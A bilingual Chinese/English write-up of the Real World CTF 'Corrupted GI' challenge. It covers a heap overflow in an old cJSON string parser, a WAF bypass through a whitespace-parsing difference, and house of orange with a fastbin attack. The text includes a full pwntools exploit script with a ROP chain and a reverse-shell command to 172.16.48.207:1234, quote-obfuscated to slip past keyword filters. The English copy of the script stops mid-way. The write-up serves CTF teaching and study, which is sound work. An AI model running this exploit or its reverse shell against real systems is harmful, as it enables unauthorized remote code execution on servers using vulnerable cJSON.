




# Real World CTF Corrupted GI Writeup - 先知社区

Real World CTF Corrupted GI Writeup

- - -

## Chinese Version

### 背景

题目的出题灵感来源于笔者在对某大规模部署产品进行分析时发现的一个较难利用的堆漏洞。在完成完整利用的过程中，笔者第一次在实战场景组合使用了一些 CTF 赛题中用到的堆利用技巧。本篇文章会以题目 writeup 的形式介绍该漏洞的成因及利用技巧。感谢@M4x 实现题目相关代码。

[题目信息](https://github.com/chaitin/Real-World-CTF-6th-Challenges/tree/main/Corrupted%20GI)

### 漏洞成因

该漏洞存在于一个开源项目 [`cJSON`](https://github.com/DaveGamble/cJSON) 中。在较早版本的`cJSON`代码中，解析 json 中的字符串时会通过以下函数实现：

```plain
static const char *parse_string(cJSON *item,const char *str)
{
    const char *ptr=str+1;char *ptr2;char *out;int len=0;unsigned uc;
    if (*str!='\"') {ep=str;return 0;}  /* not a string! */

    while (*ptr!='\"' && *ptr && ++len) if (*ptr++ == '\\') ptr++;  /* Skip escaped quotes. */

    out=(char*)cJSON_malloc(len+1); /* This is how long we need for the string, roughly. */
    if (!out) return 0;

    ptr=str+1;ptr2=out;
    while (*ptr!='\"' && *ptr)
    {
        if (*ptr!='\\') *ptr2++=*ptr++;
        else
        {
            ptr++;
            switch (*ptr)
            {
                case 'b': *ptr2++='\b'; break;
                case 'f': *ptr2++='\f'; break;
                case 'n': *ptr2++='\n'; break;
                case 'r': *ptr2++='\r'; break;
                case 't': *ptr2++='\t'; break;
                case 'u':    /* transcode utf16 to utf8. DOES NOT SUPPORT SURROGATE PAIRS CORRECTLY. */
                    sscanf(ptr+1,"%4x",&uc);    /* get the unicode char. */
                    len=3;if (uc<0x80) len=1;else if (uc<0x800) len=2;ptr2+=len;

                    switch (len) {
                        case 3: *--ptr2 =((uc | 0x80) & 0xBF); uc >>= 6;
                        case 2: *--ptr2 =((uc | 0x80) & 0xBF); uc >>= 6;
                        case 1: *--ptr2 =(uc | firstByteMark[len]);
                    }
                    ptr2+=len;ptr+=4;
                    break;
                default:  *ptr2++=*ptr; break;
            }
            ptr++;
        }
    }
    *ptr2=0;
    if (*ptr=='\"') ptr++;
    item->valuestring=out;
    item->type=cJSON_String;
    return ptr;
}
```

可以发现，代码主要有以下步骤：

-   1 计算字符串长度（通过寻找第二个`"`来计算）
-   2 申请内存
-   3 将字符写入内存（如果需要解码则进行解码）

而在解码过程中，当遇到`'\u'`时，最终会执行`ptr+=4`。如果`ptr+4` 跳过的字节里，恰好有第一步计算长度时找到的第二个`"`，这时就可以产生一个堆溢出。攻击者在可以输入任意 json 字符串的情况下可以轻松的控制申请的内存大小及溢出的长度。

### 漏洞利用

完成利用主要有以下几个难点：

-   需要绕过 waf 过滤（我们模拟了实际场景中存在的 waf 场景）
-   在解析 json 的过程中没有 free，且不存在堆上可用的内存指针或函数指针

第一点带来的主要问题是 payload 的长度是有限制的，攻击者需要使用较短的 payload 申请大量堆内存，为后续利用做准备。通过逆向或者阅读 cjson 的代码可以发现通过数组（\[1,1,....\]）可以用很短的 payload 申请大量的内存。但 waf 中同时使用正则表达式"\\"\\s*:\\s*\\\["过滤了数组。绕过这条规则使用了 cjson 和 pcre2 的一个解析差异，cjson 中会使用自定义的 skip 函数跳过所有≤0x20 的字符

```plain
const char *__cdecl skip(const char *in)
{
  while ( in && *in && *in <= 0x20u )
    ++in;
  return in;
}
```

而 pcre2 的\\s只会匹配空白字符（\\n, \\r, \\t, 空格等），因此只需要用二者之间差集中的特殊字符即可绕过正则规则，同时能使用数组，如"a:\\x01\[1,1\]"

针对第二点，需要使用`house of orange`。`house of orange`是在 2016 HITCON CTF Quals 中出现的堆利用技巧。攻击者通过该技巧可以在程序本身无法触发 free 的情况下，通过一系列堆布局，最终使 glibc 堆管理器将某块堆内存释放。你可以阅读[how2heap 的例子](https://github.com/shellphish/how2heap/blob/master/glibc_2.23/house_of_orange.c)或者其他文章来学习该技巧。

笔者这里用几个简单的图来说明针对该题目如何通过`house of orange`构造一个`fastbin attack`。

-   json 允许字典，数组等形式传递数据。`cJSON`中针对数组的每一项都需要申请单独的内存。因此我们可以通过大量数组的形式去分配大量内存，使 top chunk 变得足够小

[](https://xzfile.aliyuncs.com/media/upload/picture/20240130151157-dad58cd4-bf3e-1.png)

-   之后申请一块大内存，使 topchunk 无法满足要求导致被释放（`house of orange`）

[](https://xzfile.aliyuncs.com/media/upload/picture/20240130151236-f1c4f042-bf3e-1.png)

-   重复以上步骤，再次构造一个 free chunk

[](https://xzfile.aliyuncs.com/media/upload/picture/20240130151253-fc29e8d0-bf3e-1.png)

-   申请第一个 free chunk，通过漏洞溢出到第二个 free chunk，构造 fastbin attack

[](https://xzfile.aliyuncs.com/media/upload/picture/20240130151309-05afcbcc-bf3f-1.png)

通过以上方式可以构造一个`fastbin attack`。之后可以通过`fastbin attack`去修改 data 段的函数指针，跳转到 ROP 最终完成利用（PS：这里很有趣的一点是，如果没有 protobuf 存储在 data 段上的函数指针，在开启 Full RELRO 的情况下也无法完成利用）

完整的利用脚本如下：

```plain
#!/usr/bin/env python3
from pwn import *
context.arch = "amd64"
context.log_level = "debug"

# POST /cgi-bin/login.cgi HTTP/1.1
# Accept: application/json, */*
# Accept-Encoding: gzip, deflate
# Connection: keep-alive
# Content-Length: 171
# Content-Type: application/json
# Host: 192.168.64.135:8080
# User-Agent: HTTPie/1.0.3
# 
# {"data": "BICWCZDNNFXBEK3IOR2HA4Z2F4XXO53XFZ4W65LUOVRGKLTDN5WS653BORRWQP3WHUWVC4LQIV3E4MSYMQ4BQAQ", "timestamp": 61866, "data": "aaaa\u" aaaaaaaabaaaaaaacaaaaaaadaaaaaaa"}

blacklist_dict = {
    b"\b": b"\\b",
    b"\f": b"\\f",
    b"\n": b"\\n",
    b"\r": b"\\r",
    b"\t": b"\\t",

    b";": b"\\u003b",
    b"$": b"\\u0024",
    b"|": b"\\u007c",
    b"`": b"\\u0060",
    b"&": b"\\u0026",
    b"#": b"\\u0023",
    b"(": b"\\u0028",
    b")": b"\\u0029",

    b"\x00": b"\\u0000",
    # bash, flag, cat, tcp
}


def get_raw_payload(payload):
    # breakpoint()
    raw_payload = b""
    for i in payload:
        c = chr(i).encode("latin")
        if c in blacklist_dict:
            raw_payload += blacklist_dict[c]

        else:
            raw_payload += c

    return raw_payload

def calc_array_pair_cnt(required_size, message_len):
    align_up_0x10 = lambda x: (x + 0x0f) & ~0xf
    remain_chunk_length = lambda x: (x & 0x0f) // (8 + 1) * 0x10

    string_len = lambda n: 2 * n + message_len # 1,1,
    calc = lambda n: 0x50 * n + align_up_0x10(string_len(n)) + remain_chunk_length(string_len(n))

    for i in range(0, 0x1000):
        size = calc(i)
        if size < required_size:
            continue
        elif size == required_size:
            return (i, 0, 0)
        else:
            # breakpoint()
            return (i - 1, -1, calc(i - 1))
    else:
        raise Exception("required size too big")


def generate_array_payload(required_size, message_len):
    '''
    gdb-peda$ parseheap
    addr      ... size ...
    0x1cf0000 ... 0x?? ...    strlen(http_message) // 
    0x1cf0090 ... 0x50 ...    cJSON_Object root     
    0x1cf00e0 ... 0x50 ...    cJSON_String data string
    0x1cf0130 ... 0x20 ...    strlen("data")
    0x1cf0150 ... 0x60 ...    strlen(data string)
    0x1cf01b0 ... 0x50 ...    cJSON_String  timestamp
    0x1cf0200 ... 0x20 ...    strlen("timestamp")
    0x1cf0220 ... 0x50 ...    cJSON_Array timestamp
    0x1cf0270 ... 0x20 ...    strlen("timestamp")
    '''
    # breakpoint()
    N, ret, calc_size = calc_array_pair_cnt(required_size, message_len)
    payload = b'1,' * N # 0x50 chunk
    # payload = payload.rstrip(b",")
    if ret == -1:
        payload += b'\x01' * (required_size - calc_size)
    # print("required_size {:#x} message_len {:#x} N {:#x} payload_len {:#x}".format(required_size, message_len, N, len(payload)))
    # print(b"payload: %b" % payload)
    return payload


def exp(host, port):
    io = remote(host, port, timeout = 9999)

    json_template = b'''
    {"data":"BICWCZDNNFXBEK3IOR2HA4Z2F4XXO53XFZ4W65LUOVRGKLTDN5WS653BORRWQP3WHUWVC4LQIV3E4MSYMQ4BQAQ","timestamp":61866,"timestamp":\x11[%b]}
    '''.strip()
    # print(json_template, len(json_template) - 2)
    template_len = len(json_template) - 2 + 1 # 2: %b, 1: content_length + 1
    top_chunk_size = 0x20e00 + 0x2000 # why 0x2000?

    raw_len = lambda x: len(get_raw_payload(x))

    # array_payload|overflow_old_top_chunk_payload|free_old_top_chunk_payload|overflow_new_top_chunk_payload|free_new_top_chunk_payload|overflow_fastbin_fd_payload|dummy_alloc_payload|hijack_payload

    overflow_old_top_chunk_payload =  b'"aaaaaaaaaaaaa\u"   '
    overflow_old_top_chunk_payload += b'0' * 8 # prev_size of old top_chunk
    overflow_old_top_chunk_payload += p16(0x41) # 0x1041 -> 0x41
    overflow_old_top_chunk_payload += b'"'
    overflow_old_top_chunk_payload += b',' # not end
    # print("overflow_old_top_chunk_payload len {:#x}, raw_len {:#x}".format(len(overflow_old_top_chunk_payload), raw_len(overflow_old_top_chunk_payload)))


    # free_old_top_chunk_payload = b",1" # 0x50 chunk, we don't need this step because the next cJSON_String will do this happily

    overflow_new_top_chunk_payload =  b'"bbbbbbbbbbbbbbbbbbbbbbbbbbbbb\u"   '
    overflow_new_top_chunk_payload += b'1' * 8 # prev_size of new top_chunk
    overflow_new_top_chunk_payload += p8(0x61 + 0x50) + p16(0) # 0x0000000000021f81 -> 0x00000000000000b1, save bytes as much as possible
    overflow_new_top_chunk_payload += b'"'
    overflow_new_top_chunk_payload += b',' # not end
    # print("overflow_new_top_chunk_payload len {:#x}, raw_len {:#x}".format(len(overflow_new_top_chunk_payload), raw_len(overflow_new_top_chunk_payload)))

    # malloc(0x60 - 0x10)
    free_new_top_chunk_payload =  b'"'
    free_new_top_chunk_payload += b'2' * 0x50
    free_new_top_chunk_payload += b'"'
    free_new_top_chunk_payload += b',' # not end
    # print("free_new_top_chunk_payload len {:#x}, raw_len {:#x}".format(len(free_new_top_chunk_payload), raw_len(free_new_top_chunk_payload)))

    # reclaim small bin and overflow fastbin
    # for k in blacklist_dict:
    #     assert k not in shellcode, "invalid char {}:{} in shellcode".format(shellcode.find(k), k)

    # for k in [b"bash", b"flag", b"cat", b"tcp"]:
    #     assert k not in shellcode, "invalid sequence {} in shellcode".format(k)


    # assert len(shellcode) <= 0x1100 - 0x8
    overflow_fastbin_fd_payload =  b'"ccccccccccccc\u"   '
    overflow_fastbin_fd_payload += b'3' * (0x1100 - 0x8)
    overflow_fastbin_fd_payload += p64(0x41) # size of fastbin
    '''
    gdb-peda$ x/20gx 0x676020-8+2
    0x67601a:       0x51e8000000000000      0x51f0000000000045
    '''
    overflow_fastbin_fd_payload += p32(0x67601a) # fake fd, use p32 instead of p64 to save bytes
    overflow_fastbin_fd_payload += b'"'
    overflow_fastbin_fd_payload += b',' # not end
    # print("overflow_fastbin_fd_payload len {:#x}, raw_len {:#x}".format(len(overflow_fastbin_fd_payload), raw_len(overflow_fastbin_fd_payload)))

    dummy_alloc_payload =  b'"'
    dummy_alloc_payload += b'4' * 0x30
    dummy_alloc_payload += b'"'
    dummy_alloc_payload += b','
    # print("dummy_alloc_payload len {:#x}, raw_len {:#x}".format(len(dummy_alloc_payload), raw_len(dummy_alloc_payload)))


    '''
    gdb-peda$ x/5i 0x7fea5aabd050
   0x7fea5aabd050 <munmap>:     mov    eax,0xb
   0x7fea5aabd055 <munmap+5>:   syscall
   0x7fea5aabd057 <munmap+7>:   cmp    rax,0xfffffffffffff001
   0x7fea5aabd05d <munmap+13>:  jae    0x7fea5aabd060 <munmap+16>
   0x7fea5aabd05f <munmap+15>:  ret
    '''
    '''
    0x00000000004464e2, # xchg edx, ecx ; ret -> save heap pointer
    0x0000000000451151, # pop r8 ; mov dword ptr [rdx], eax ; xor eax, eax ; ret
    0x0000000000450ab0 : mov rax, qword ptr [rdi + 0x28] ; ret
    0x0000000000401063, # pop rdx ; pop rbx ; pop rbp ; ret
    0x0000000000406862 : pop rsi ; ret
    0x0000000000404cb7 : pop rdi ; ret
    0x00000000004165af : add rax, rsi ; ret
    0x0000000000450ab0 : mov rax, qword ptr [rdi + 0x28] ; ret
    '''
    ropchain = flat([
        0x0000000000450ab0, # mov rax, qword ptr [rdi + 0x28] ; ret
        0x0000000000406862, # pop rsi ; ret
        0xa0b0, # system - getenv
        0x00000000004165af, # add rax, rsi ; ret -> rax->system
        0x0000000000404cb7, # pop rdi ; ret
        0x6760c8, # cmd address
        0x0000000000408823, # add rsp, 0x328 ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret -> sastisfy system
        b'x' * (0x328 + 6 * 8),
        0x000000000040853d, # call rax
    ])

    CMD = b"""bas'h' -i >& /dev/'t'cp/172.16.48.207/1234 0>&1;"""
    for k in [b'bash', b'flag', b'cat', b'tcp', b'"']:
        assert k not in CMD, "invalid sequence {} in CMD".format(k)

    # CMD = b"touch /tmp/test;"
    pivot_payload = flat({
        0x00: p64(0x4087F5), # .alloc -> disable je in .free gadget
        # .text:00000000004087F5 test    rsi, rsi
        # .text:00000000004087F8 jz      short loc_408801
        # .text:00000000004087F8
        # .text:00000000004087FA mov     rdi, [rbx+10h]
        # .text:00000000004087FE call    qword ptr [rbx+8]
        0x08: p64(0x00000000004381d3), # .free -> xchg eax, esp ; je 0x43901d ; add rsp, 0xe8 ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
        0x10: p64(0x675ec8 - 0x28), # getenv@got - 0x28
        0x18: CMD,
        0x118: ropchain
    })

    hijack_payload =  b'"ddddddddddddddddddddddddddddddddddddddd\u"   '
    hijack_payload += b'e' * 0x5c
    hijack_payload += pivot_payload
    hijack_payload += b'"'
    # hijack_payload += b','
    # print("hijack_payload len {:#x}, raw_len {:#x}".format(len(hijack_payload), raw_len(hijack_payload)))


    # print("message len {:#x}".format(template_len + raw_len(overflow_old_top_chunk_payload) + raw_len(overflow_new_top_chunk_payload) + raw_len(free_new_top_chunk_payload) + raw_len(overflow_fastbin_fd_payload) + raw_len(dummy_alloc_payload) + raw_len(hijack_payload)))

    array_payload = generate_array_payload(top_chunk_size - 0x1040 - 0x50 - 0x20, template_len + raw_len(overflow_old_top_chunk_payload) + raw_len(overflow_new_top_chunk_payload) + raw_len(free_new_top_chunk_payload) + raw_len(overflow_fastbin_fd_payload) + raw_len(dummy_alloc_payload) + raw_len(hijack_payload)) 

    payload =  array_payload
    payload += overflow_old_top_chunk_payload
    payload += overflow_new_top_chunk_payload
    payload += free_new_top_chunk_payload
    payload += overflow_fastbin_fd_payload
    payload += dummy_alloc_payload
    payload += hijack_payload

    http_body = json_template % get_raw_payload(payload)
    write("exp_data", http_body)

    http_template = b'''
POST /cgi-bin/login.cgi HTTP/1.1\r
Host: %s:%d\r
Content-Type: application/json\r
Content-Length: %d\r
\r
%s
'''.strip()
    # print(http_template)

    http_message = http_template % (host, port, len(http_body), http_body)

    io.send(http_message)

    io.interactive()

if __name__ == "__main__":
    host = b"192.168.64.135"
    port = 8080

    exp(host, port)
```

## English version

### Background

The inspiration for this challenge came from a heap vulnerability that was difficult to exploit when I was analyzing a common product this year. In the process of completing the complete application, I combined and used some heap exploit tricks used in CTF competition challenges in a practical scenario for the first time. This article will introduce the causes and exploitation method of this vulnerability in the form of a writeup. Thanks to @M4x for implementing the code related to the challenge.

[Challenge infomation](https://github.com/chaitin/Real-World-CTF-6th-Challenges/tree/main/Corrupted%20GI)

### Vulnerability analysis

The vulnerability exists in an open source project [`cJSON`](https://github.com/DaveGamble/cJSON). In earlier versions of `cJSON` code, parsing strings in json was implemented through the following functions:

```plain
static const char *parse_string(cJSON *item,const char *str)
{
    const char *ptr=str+1;char *ptr2;char *out;int len=0;unsigned uc;
    if (*str!='\"') {ep=str;return 0;}  /* not a string! */

    while (*ptr!='\"' && *ptr && ++len) if (*ptr++ == '\\') ptr++;  /* Skip escaped quotes. */

    out=(char*)cJSON_malloc(len+1); /* This is how long we need for the string, roughly. */
    if (!out) return 0;

    ptr=str+1;ptr2=out;
    while (*ptr!='\"' && *ptr)
    {
        if (*ptr!='\\') *ptr2++=*ptr++;
        else
        {
            ptr++;
            switch (*ptr)
            {
                case 'b': *ptr2++='\b'; break;
                case 'f': *ptr2++='\f'; break;
                case 'n': *ptr2++='\n'; break;
                case 'r': *ptr2++='\r'; break;
                case 't': *ptr2++='\t'; break;
                case 'u':    /* transcode utf16 to utf8. DOES NOT SUPPORT SURROGATE PAIRS CORRECTLY. */
                    sscanf(ptr+1,"%4x",&uc);    /* get the unicode char. */
                    len=3;if (uc<0x80) len=1;else if (uc<0x800) len=2;ptr2+=len;

                    switch (len) {
                        case 3: *--ptr2 =((uc | 0x80) & 0xBF); uc >>= 6;
                        case 2: *--ptr2 =((uc | 0x80) & 0xBF); uc >>= 6;
                        case 1: *--ptr2 =(uc | firstByteMark[len]);
                    }
                    ptr2+=len;ptr+=4;
                    break;
                default:  *ptr2++=*ptr; break;
            }
            ptr++;
        }
    }
    *ptr2=0;
    if (*ptr=='\"') ptr++;
    item->valuestring=out;
    item->type=cJSON_String;
    return ptr;
}
```

It can be found that the code mainly has the following steps:

-   1 Calculate the string length (calculated by looking for the second `"`)
-   2 Alloc memory
-   3 Write characters to memory (decode if needed)

During the decoding process, when `'\u'` is encountered, `ptr+=4` will eventually be executed. If `ptr+4` skips bytes, there happens to be the second `"` found in the first step of calculating the length, then a heap overflow can occur. An attacker can easily control the requested memory size and overflow length by inputting any json string.

### How to exploit

There are several main difficulties in completing the utilization:

-   Need to bypass waf filtering (we simulated the waf scenario that exists in the actual scenario)
-   There is no free during the process of parsing json, and there is no memory pointer or function pointer available on the heap

The main problem brought by the first point is that the length of the payload is limited. The attacker needs to use a shorter payload to apply for a large amount of heap memory to prepare for subsequent exploitation. By reversing or reading the cjson code, you can find that you can malloc a large amount of memory with a short payload through an array (\[1,1,....\]). But waf also uses the regular expression "\\"\\s*:\\s*\\\[" to filter the array. To bypass this rule, a parsing difference between cjson and pcre2 is used. Customized ones are used in cjson The skip function skips all characters ≤ 0x20

```plain
const char *__cdecl skip(const char *in)
{
   while ( in && *in && *in <= 0x20u )
     ++in;
   return in;
}
```

The \\s of pcre2 will only match whitespace characters (\\n, \\r, \\t, spaces, etc.), so you only need to use the special characters in the difference between the two to bypass the regular rules, and you can also use arrays, such as "a:\\x01\[1,1\]"

For the second point, you need to use `house of orange`. `house of orange` is a heap exploit trick that appeared in the 2016 HITCON CTF Quals. Through this trick, an attacker can malloc a large amount of heap and eventually cause the glibc heap manager to free a certain block of heap memory without the program itself being able to trigger free. You can read [how2heap examples](https://github.com/shellphish/how2heap/blob/master/glibc_2.23/house_of_orange.c) or other articles to learn this heap exploit trick.

Here are some pictures to explain how to construct a fastbin attack through house of orange in this challenge.

-   json allows data to be passed in the form of dictionaries, arrays, etc. In `cJSON`, separate memory needs to be allocated for each item of the array. Therefore, we can allocate a large amount of heap in the form of a large number of arrays to make the top chunk small enough.

[](https://xzfile.aliyuncs.com/media/upload/picture/20240130151157-dad58cd4-bf3e-1.png)

-   Then malloc a large memory, so that topchunk cannot meet the requirements and is freed (`house of orange`)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240130151236-f1c4f042-bf3e-1.png)

-   Repeat the above steps to construct a free chunk again

[](https://xzfile.aliyuncs.com/media/upload/picture/20240130151253-fc29e8d0-bf3e-1.png)

-   Malloc the first free chunk, overflow to the second free chunk through the vulnerability, and now we can do fastbin attack

[](https://xzfile.aliyuncs.com/media/upload/picture/20240130151309-05afcbcc-bf3f-1.png)

`fastbin attack` can be constructed in the above way. After that, you can use `fastbin attack` to modify the function pointer of the data segment, jump to ROP and finally complete the exploit (PS: The interesting point here is that if there is no function pointer stored in the data segment by protobuf, when Full RELRO is turned on, this vulnerability cannot be exploited.)

The complete exploit script is as follows:

```plain
#!/usr/bin/env python3
from pwn import *
context.arch = "amd64"
context.log_level = "debug"

# POST /cgi-bin/login.cgi HTTP/1.1
# Accept: application/json, */*
# Accept-Encoding: gzip, deflate
# Connection: keep-alive
# Content-Length: 171
# Content-Type: application/json
# Host: 192.168.64.135:8080
# User-Agent: HTTPie/1.0.3
# 
# {"data": "BICWCZDNNFXBEK3IOR2HA4Z2F4XXO53XFZ4W65LUOVRGKLTDN5WS653BORRWQP3WHUWVC4LQIV3E4MSYMQ4BQAQ", "timestamp": 61866, "data": "aaaa\u" aaaaaaaabaaaaaaacaaaaaaadaaaaaaa"}

blacklist_dict = {
    b"\b": b"\\b",
    b"\f": b"\\f",
    b"\n": b"\\n",
    b"\r": b"\\r",
    b"\t": b"\\t",

    b";": b"\\u003b",
    b"$": b"\\u0024",
    b"|": b"\\u007c",
    b"`": b"\\u0060",
    b"&": b"\\u0026",
    b"#": b"\\u0023",
    b"(": b"\\u0028",
    b")": b"\\u0029",

    b"\x00": b"\\u0000",
    # bash, flag, cat, tcp
}


def get_raw_payload(payload):
    # breakpoint()
    raw_payload = b""
    for i in payload:
        c = chr(i).encode("latin")
        if c in blacklist_dict:
            raw_payload += blacklist_dict[c]

        else:
            raw_payload += c

    return raw_payload

def calc_array_pair_cnt(required_size, message_len):
    align_up_0x10 = lambda x: (x + 0x0f) & ~0xf
    remain_chunk_length = lambda x: (x & 0x0f) // (8 + 1) * 0x10

    string_len = lambda n: 2 * n + message_len # 1,1,
    calc = lambda n: 0x50 * n + align_up_0x10(string_len(n)) + remain_chunk_length(string_len(n))

    for i in range(0, 0x1000):
        size = calc(i)
        if size < required_size:
            continue
        elif size == required_size:
            return (i, 0, 0)
        else:
            # breakpoint()
            return (i - 1, -1, calc(i - 1))
    else:
        raise Exception("required size too big")


def generate_array_payload(required_size, message_len):
    '''
    gdb-peda$ parseheap
    addr      ... size ...
    0x1cf0000 ... 0x?? ...    strlen(http_message) // 
